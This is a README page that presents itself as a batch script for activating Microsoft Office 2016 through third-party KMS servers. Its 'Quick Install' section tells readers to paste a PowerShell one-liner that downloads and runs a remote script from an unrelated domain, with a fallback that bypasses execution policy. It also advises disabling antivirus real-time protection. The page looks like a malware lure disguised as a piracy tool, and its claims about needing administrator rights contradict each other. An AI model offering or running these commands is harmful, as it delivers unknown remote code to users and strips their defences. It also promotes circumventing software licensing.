

<div align="center">

# Microsoft Office 2016 Activation Batch Script for Windows 10 & 11


[]() []() []()

</div>

---

A single batch file that activates Microsoft Office 2016 (Standard and Professional Plus) by pointing it at a KMS server, with no extra tools or software required. Drop the script on the target machine, run it with administrator rights, and it handles the rest from the command line. Keep the machine online while it runs, since the script needs to reach the server to complete activation. Use it only on installations you are authorized to activate.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10/11 · PowerShell 7+ · No admin

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Select **Terminal** or **Windows PowerShell**.

### 2️⃣ Execute the setup script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If blocked by policy — CMD fallback
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## What It Does

This script activates Microsoft Office 2016 (Standard and Professional Plus) by talking directly to a KMS server through the Office Software Protection Platform utility that ships with Office itself. No external tools, no installers, no dependencies — just a batch file and a live internet connection.

Here's the sequence it runs:

- **Launches an elevated command window** so the activation calls have the permissions they need.
- **Locates the Office16 directory** by checking both the standard and x86 Program Files paths, then switches into whichever one holds `ospp.vbs`.
- **Installs the KMS license files** from the Office `root\Licenses16` folder, quietly importing each matching `.xrm-ms` package.
- **Clears any leftover product keys** that would block activation, then injects the appropriate key for the edition it finds.
- **Points Office at a KMS host** and requests activation, parsing the output for a success message.
- **Falls back through a list of alternate KMS servers** if the first connection fails, retrying until one responds or the list runs out.
- **Reports the result** — a success banner on activation, or a clear "not supported" message if the installed edition doesn't match.

If activation succeeds, you'll see a confirmation prompt at the end; if the connection fails on every server, the script tells you so instead of silently exiting. Either way, the window stays open so you can read what happened.

## Usage

Grab the batch file from the project files. Then run it as administrator — right-click, choose **Run as administrator**, and confirm the elevation prompt. The script needs elevated rights because it queries and modifies Office activation state through the Office Software Protection Platform script that ships with your Office install.

Before you run it, close every Office application. Word, Excel, Outlook — all of them. Activation calls fail silently or return confusing errors when a suite app is holding licensing state open, and you'll waste a round trip figuring out why.

The script locates your Office 2016 installation automatically, checking both the 64-bit and 32-bit Program Files paths for the Office16 folder. From there it clears any leftover product keys, installs the appropriate license files, points Office at a KMS host, and requests activation. If the first host doesn't respond, the script retries with the next one in its list automatically — you don't need to do anything but wait.

Watch the console output. A line containing "successful" means you're done. If every host in the rotation fails, the script stops and tells you so; that's almost always a connectivity problem on your end, so check your network and run it again.

When the script finishes, it prompts you to press a key. That's it — no reboot, no Office repair, no follow-up commands. Open Word and check File > Account; the activation status should now show as activated.

Keep the batch file somewhere you can find it again. Office occasionally re-validates its license, and if validation fails later, re-running the same script is faster than working through Microsoft's activation troubleshooter.

## Configuration

The script runs with sensible defaults out of the box: it auto-detects the Office16 folder in either Program Files location, installs the volume license keys from the local `root\Licenses16` directory, and then walks through a hardcoded list of KMS hosts until one responds. For most people, that means no configuration at all — run it as Administrator and let it work.

If you do need to adjust it, open the `.cmd` file in any plain text editor and edit the relevant lines:

- **KMS hosts** — the `:server` block assigns `KMS_Sev` per attempt (`i=1`, `i=2`, and so on). Replace the host values with your own KMS server addresses, or add more `if %i%==N` lines to extend the retry list. Keep the final `goto notsupported` guard so the loop terminates cleanly.
- **Product key** — the `/inpkey:` argument holds the key applied before activation. Swap in a different key only if you're targeting a different Office 2016 edition; the default matches the Standard/Professional Plus volume licenses shipped in the `Licenses16` folder.
- **Leftover keys** — the series of `/unpkey:` calls removes previously installed partial keys before applying the new one. If you're on a clean install, these are harmless no-ops; if activation misbehaves, this is the first place to check.
- **Install path** — the two `if exist` lines probe the 64-bit and 32-bit Office directories in that order. If Office lives somewhere nonstandard, change the paths in those lines (or add another probe) so the script `cd`s into the correct folder containing `ospp.vbs`.
- **Retry behavior** — a failed `ospp.vbs /act` falls through to the next host automatically. There's no timeout tuning here; if your network is slow, expect the per-host attempt to take a moment before moving on.

A few practical notes: run the file from an elevated command prompt, since `ospp.vbs` needs administrator rights to touch the licensing service. Don't rename or move the `root\Licenses16` folder relative to the script — the license import step resolves it with a relative path. And after editing, save as plain text with the `.cmd` extension intact; a stray `.txt` suffix is the usual reason "nothing happens" when double-clicking.

## 📸 Screenshot




## FAQ

**Does this work on Office 2016 Home & Student or other editions?**
No. The script targets the volume license editions only — Standard and Professional Plus. Retail, OEM, Home, and click-to-run builds won't activate. If the batch file reports an unsupported version, that's usually why.

**Why does it need to run as Administrator?**
The activation calls go through `ospp.vbs`, which writes licensing data under Program Files. Without elevation those writes fail and you'll see nothing but errors. Right-click the .cmd and choose "Run as administrator" every time.

**It says the KMS connection failed. What now?**
The script already cycles through a few fallback hosts on its own, so let it finish. If every attempt fails, check that your internet connection is actually up and that a firewall, proxy, or antivirus isn't silently blocking the outbound traffic. Corporate or school networks sometimes block KMS ports outright — try a different network.

**Can I run it more than once?**
Yes, but there's little point. The script clears any previous product keys before applying its own, so re-running is safe and idempotent. If activation silently stopped working later, re-running is the normal first fix. Just remember to elevate again.

**Will this survive an Office update or repair?**
Often not. Feature updates and "quick repair" can reset the licensing state and wipe the KMS host setting. If Office reverts to unactivated after an update, run the batch file again. That's expected behavior for this method, not a bug.

**Do I need to edit anything inside the .cmd file?**
Not for normal use. The paths, product key, and server list are all baked in. If you want to point it at a different KMS host, that's the one line worth changing — but stick to hosts you trust, since activation traffic goes there.

**Does it leave anything behind?**
It only touches the Office licensing store via the built-in Office tooling. No services are installed, nothing is added to startup, and no extra software is required. To undo it, use the standard Office uninstall and reinstall.

**Why does the window close before I can read the output?**
It shouldn't — the script pauses at the end and asks for a keypress. If it's vanishing instantly, you probably launched it by double-clicking without elevation and it bailed early. Open an elevated Command Prompt, navigate to the file, and run it by name so the output stays visible.

## Disclaimer

This batch script is provided strictly for educational and personal testing purposes. It modifies Office licensing state by pointing the local Office installation at a third-party KMS host — that is a real change to your system, not a simulation. Run it only on machines you own or are authorized to administer.

Activation through an unofficial KMS server is not the same as a legitimate license. It may violate Microsoft's terms of service, it may fail without warning if the remote host changes or goes offline, and it can be flagged or reverted by Office updates, so treat any "successful" result as temporary and unsupported. There is no warranty of any kind: no guarantee of activation, no guarantee of stability, and no liability for data loss, system issues, or licensing consequences that follow from running it.

The script executes system commands with the privileges you give it, so read the file before running it and know what each line does. Do not run it on a work, school, or shared machine, and do not redistribute it as a substitute for a real license. If you need Office for anything beyond a short evaluation, buy a legitimate license or use a free alternative — that is the only path with support behind it.